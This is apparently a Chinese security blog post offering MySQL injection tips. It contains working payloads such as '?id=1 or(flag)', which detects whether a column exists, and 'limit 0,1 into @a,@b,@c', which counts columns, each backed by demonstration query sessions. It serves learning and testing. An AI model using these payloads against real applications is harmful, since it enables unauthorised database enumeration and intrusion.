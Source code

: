```yaml
---
title: mysql注入小技巧
toc: true
description: 本文不成体系的介绍一些 sql 注入的小的好玩的点，希望对你有用。
summary: 本文不成体系的介绍一些 sql 注入的小的好玩的点，希望对你有用。
categories:
    - websec
    - sql injection
date: 2019-08-04 09:00:16
tags:
---
```


# 判断当前表中是否有某个字段

假设后台语句为：select \* from tuser where id=1

假设我们要判断有没有 flag 字段，我们可以构造 payload：?id=1 or(flag)

通过报错与否来判断有无该字段。

原理）（我自己测试出来的..）：where 后面可以直接加字段名，在判断 where 条件时，mysql 会对每条数据的该字段进行 atof/atod 函数操作（但实际的数据不变，只是这样判断），即：将其转换为浮点型，然后通过判断该字段是否为 0，若非零，则满足条件。

给出测试证明：

```
mysql> select * from tuser;
+------+----------+----------+
| id   | username | passwd   |
+------+----------+----------+
|    1 | admin    | basswd   |
|    1 | adam     | vassword |
|    1 | bob      | gasswd   |
|    2 | colin    | passwd   |
|    2 | doc      | passwd   |
|    3 | doctor   | passwd   |
|    3 | elite    | passwd   |
|    1 | NULL     | passw    |
|    1 | admin    | basswd   |
|    1 | adam     | vassword |
|    1 | bob      | gasswd   |
|    2 | colin    | passwd   |
|    1 | 0        | pass     |
|    1 |          | pas      |
|    1 |  dewe    | ds       |
|    1 |  3fd     | asd      |
+------+----------+----------+
16 rows in set (0.00 sec)

mysql> select * from tuser where username;
+------+----------+--------+
| id   | username | passwd |
+------+----------+--------+
|    1 |  3fd     | asd    |
+------+----------+--------+
1 row in set, 13 warnings (0.00 sec)

mysql> select * from tuser where id
    -> ;
+------+----------+----------+
| id   | username | passwd   |
+------+----------+----------+
|    1 | admin    | basswd   |
|    1 | adam     | vassword |
|    1 | bob      | gasswd   |
|    2 | colin    | passwd   |
|    2 | doc      | passwd   |
|    3 | doctor   | passwd   |
|    3 | elite    | passwd   |
|    1 | NULL     | passw    |
|    1 | admin    | basswd   |
|    1 | adam     | vassword |
|    1 | bob      | gasswd   |
|    2 | colin    | passwd   |
|    1 | 0        | pass     |
|    1 |          | pas      |
|    1 |  dewe    | ds       |
|    1 |  3fd     | asd      |
+------+----------+----------+
16 rows in set (0.00 sec)

mysql> select * from tuser where passwd;
Empty set, 16 warnings (0.00 sec)

mysql> show warnings;
+---------+------+-----------------------------------------------+
| Level   | Code | Message                                       |
+---------+------+-----------------------------------------------+
| Warning | 1292 | Truncated incorrect INTEGER value: 'basswd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'vassword' |
| Warning | 1292 | Truncated incorrect INTEGER value: 'gasswd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'passwd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'passwd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'passwd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'passwd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'passw'    |
| Warning | 1292 | Truncated incorrect INTEGER value: 'basswd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'vassword' |
| Warning | 1292 | Truncated incorrect INTEGER value: 'gasswd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'passwd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'pass'     |
| Warning | 1292 | Truncated incorrect INTEGER value: 'pas'      |
| Warning | 1292 | Truncated incorrect INTEGER value: 'ds'       |
| Warning | 1292 | Truncated incorrect INTEGER value: 'asd'      |
+---------+------+-----------------------------------------------+
16 rows in set (0.00 sec)
mysql> select * from tuser where passwe
    -> ;
ERROR 1054 (42S22): Unknown column 'passwe' in 'where clause'
```

当然，如果自己构造的话，也可以在 information_schema 里面判断有没有某库，某表等。

# limit 下的字段数判断

使用 where 条件时，我们可以使用 order by 判断字段数，而 limit 后可以利用 `1,into @,@` （@为字段数）判断字段数

注：@为 mysql 的 User-Defined Variables，即：用户定义变量，也就是我们可以使用 @ 在 mysql 中定义变量，类似 php 中使用 \$ 定义变量。

比如：

```sql
mysql> set @var = 1;
Query OK, 0 rows affected (0.00 sec)

mysql> select @var;
+------+
| @var |
+------+
|    1 |
+------+
1 row in set (0.00 sec)
```

下面展示 limit 0,1 猜字段数，

```
mysql> select * from tuser where id=1 limit 0,1 into @a,@b,@c;
Query OK, 1 row affected (0.05 sec)

mysql> select * from tuser where id=1 limit 0,1 into @a,@b;
ERROR 1222 (21000): The used SELECT statements have a different number of columns
mysql> select @a;
+------+
| @a   |
+------+
|    1 |
+------+
1 row in set (0.00 sec)
```

原理：

使用 select into 语句将查询的一条（注意：@a，@b，@c 等只是一个变量，不能接受多条数据，所以 limit by x，1，第二个参数只能为 1），前后字段数不一致，放不进去当然就报列数不一样的错误。

未完待续....
